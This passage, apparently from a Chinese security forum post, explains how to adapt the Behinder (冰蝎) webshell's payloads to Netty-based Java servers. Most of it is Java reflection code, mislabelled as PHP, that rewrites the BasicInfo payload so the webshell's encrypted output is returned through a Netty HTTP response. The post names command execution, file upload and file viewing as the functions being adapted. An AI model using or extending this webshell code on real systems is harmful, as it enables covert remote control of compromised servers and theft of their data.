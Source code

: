 ```php
Method addResponseMethod = contextClass.getDeclaredMethod("writeAndFlush", new Class[]{Object.class});
addResponseMethod.setAccessible(true);
Object addListnerObject = addResponseMethod.invoke(Request, responseObject);
Method addListnerMethod = addListnerObject.getClass().getDeclaredMethod("addListener", new Class[]{GenericClass});
addListnerMethod.setAccessible(true);
addListnerMethod.invoke(addListnerObject, lisCloseObject);
```

**0.3.3 response冰蝎适配**

冰蝎日常使用的payload一般用不到request，而netty有没有初始化的session对象，所以这里只修改response了,一般常用的功能命令执行、文件上传、文件查看，这里能修改的都做了修改，冰蝎的Response通过getOutputStream方法写入回显内容  
![image042.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-f4b603c3eb92b6cbe3a51ac7b649f6745a36e0f2.png)  
DefaultFullHttpResponse及其父类没有实现getOutputStream方法，所以在冰蝎写入回显的地方做类名判断，以Java的payload中BasicInfo模块为例，原先Response的代码如上图，做类名判断的完整代码如下：

```php
 if (Response.getClass().getName().indexOf("netty") != -1) {
Class<?> httpObjectClass = Thread.currentThread().getContextClassLoader().loadClass("io.netty.handler.codec.http.HttpVersion");
Class<?> responseStatuClass = Thread.currentThread().getContextClassLoader().loadClass("io.netty.handler.codec.http.HttpResponseStatus");
Class<?> byteBufferClass = Thread.currentThread().getContextClassLoader().loadClass("io.netty.buffer.ByteBuf");
Class<?> responseClass = Thread.currentThread().getContextClassLoader().loadClass("io.netty.handler.codec.http.DefaultFullHttpResponse");
Class<?> unpooledClass = Thread.currentThread().getContextClassLoader().loadClass("io.netty.buffer.Unpooled");
Class<?> listnerClass = Thread.currentThread().getContextClassLoader().loadClass("io.netty.channel.ChannelFutureListener");
Class<?> contextClass = Thread.currentThread().getContextClassLoader().loadClass("io.netty.channel.ChannelOutboundInvoker");
Class<?> GenericClass = Thread.currentThread().getContextClassLoader().loadClass("io.netty.util.concurrent.GenericFutureListener");
Field httpField = httpObjectClass.getDeclaredField("HTTP_1_1");
httpField.setAccessible(true);
Object httpObject = httpField.get(null);
Field httpStatuField = responseStatuClass.getField("OK");
httpStatuField.setAccessible(true);
Object httpStatuObject = httpStatuField.get(null);
Field lisCloseField = listnerClass.getDeclaredField("CLOSE");
lisCloseField.setAccessible(true);
Object lisCloseObject = lisCloseField.get(null);
Method copiedBufferMethod = unpooledClass.getDeclaredMethod("copiedBuffer", new Class[]{java.lang.CharSequence.class, Charset.class});
copiedBufferMethod.setAccessible(true);
Object bufObject = copiedBufferMethod.invoke(null, new Object[]{new String(this.Encrypt(this.buildJson(result, true))), Charset.forName("UTF-8")});
Constructor responseConstructor = responseClass.getDeclaredConstructor(new Class[]{httpObjectClass, responseStatuClass, byteBufferClass});
responseConstructor.setAccessible(true);
Object responseObject = responseConstructor.newInstance(new Object[]{httpObject, httpStatuObject, bufObject});
Method getHeadersMethod = responseObject.getClass().getSuperclass().getSuperclass().getDeclaredMethod("headers", new Class[]{});
getHeadersMethod.setAccessible(true);
Object headersObject = getHeadersMethod.invoke(responseObject);
Method setHeaderMethod = headersObject.getClass().getSuperclass().getDeclaredMethod("set", new Class[]{String.class, Object.class});
setHeaderMethod.setAccessible(true);
setHeaderMethod.invoke(headersObject, new Object[]{"content-type", "text/plain; charset=UTF-8"});
```